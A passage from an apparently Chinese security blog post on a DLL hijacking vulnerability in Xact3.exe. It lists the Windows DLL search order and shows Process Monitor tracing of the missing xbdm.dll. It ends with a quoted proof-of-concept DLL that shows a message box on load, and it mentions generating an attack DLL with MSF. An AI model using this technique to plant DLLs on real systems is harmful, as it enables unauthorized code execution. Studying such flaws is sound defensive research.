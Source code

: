 寻找顺序：
---------------
* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

### 寻找过程

在这里我还是使用[Process Monitor](https://docs.microsoft.com/en-gb/sysinternals/downloads/procmon)进行分析：

**设置过滤器**

> 过滤器可以有效的帮我们排除一些不需要关注的信息

* Filter > Filter.. > Process Name > "Xact3.exe"

这样在创建`Xact3.exe`进程时，我们的过滤器就会起作用了，会将该进程的所有行为展示出来。

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-08-15/0x01.png)

然后点击“ADD”，将过滤条件生效。

虽说这样能看到所有的行为，但是还不够精确，需要再加个`Result`为`NAME NOT FOUND`的条件。


**查看加载DLL过程**

我先创建一个`1.xap`：

> 新建文本文档->重命名为1.xap

通过`Xact3.exe`打开，效果如下：

![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-08-15/0x02.png)

可以看出，该进程在不断寻找`xbdm.dll`，直接从该进程的物理路径开始寻找，这很大可能存在DLL劫持漏洞。

## 0x02 利用过程

漏洞作者披露的文章中附带了测试的POC，但是需要编译，我们可以使用MSF直接生成DLL测试。

作者POC：

```c
#include <windows.h>

/* hyp3rlinx */

/*
gcc -c -m32 xbdm.c
gcc -shared -m32 -o xbdm.dll xbdm.o
*/

void executo(){
 MessageBox( 0, "3c184981367094fce3ab70efc3b44583" , "philbin :)" , MB_YESNO + MB_ICONQUESTION );
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved){
switch(fdwReason){
case DLL_PROCESS_ATTACH:{
 executo();
break;
}
case DLL_PROCESS_DETACH:{
 executo();
break;
}
```